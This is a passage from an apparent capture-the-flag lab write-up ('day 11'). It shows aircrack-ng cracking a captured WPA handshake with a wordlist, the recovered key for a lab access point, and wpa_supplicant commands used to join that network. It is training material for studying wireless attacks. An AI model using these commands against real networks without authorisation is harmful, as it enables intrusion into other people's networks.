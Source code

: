```shell-session
glitch@wifi:~$ sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
Reading packets, please wait...
Opening output-file-01.cap
Read 276 packets.
1 potential targets

                               Aircrack-ng 1.6 

      [00:00:01] 304/513 keys tested (217.04 k/s) 

      Time left: 0 seconds                                      59.26%

                 KEY FOUND! [ REDACTED ]


      Master Key     : B6 53 9A 71 8C C4 74 5F E3 26 49 82 37 74 65 09 
                       BE C5 62 CE 43 C4 68 A7 B4 8F 8C E6 98 EE 1C CB 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : C8 8E D5 F4 B4 5A 1D C4 6C 41 35 07 68 81 79 CD
```

We found the key: `fluffy/champ24 `


**Note:** If you get an `Packets contained no EAPOL data; unable to process this AP` error, this means that you ran aircrack-ng prior to the handshake being captured or that the handshake was not captured at all. If that's the case, then re-do all of the steps in order to capture the `WPA handshake`.

With the PSK, we can now join the **MalwareM_AP** access point. In a typical engagement, we would do this to inspect the new network, or in some cases, joining the access point is enough to show impact. First, press `CTRL+C` on the terminal that has `airodump-ng` running in order to stop the **airodump-ng** process. We do this because we will not be able to join the Wi-Fi network while airodump-ng is running due to the fact that we are actively using the interface in monitor mode. Then execute the following commands:

```shell-session
glitch@wifi:~$ wpa_passphrase MalwareM_AP 'ENTER PSK HERE' > config
glitch@wifi:~$ sudo wpa_supplicant -B -c config -i wlan2
```

**Note:** If you get a `rfkill: Cannot get wiphy information` error, you can ignore it. You will also notice that `wpa_supplicant` has automatically switched our **wlan2** interface to **managed mode**.


![](../images/Pasted%20image%2020241211123800.png)

# Questions
---

![](../images/Pasted%20image%2020241211124016.png)

Just like that, day 11 is done, all questions can be found within this note.

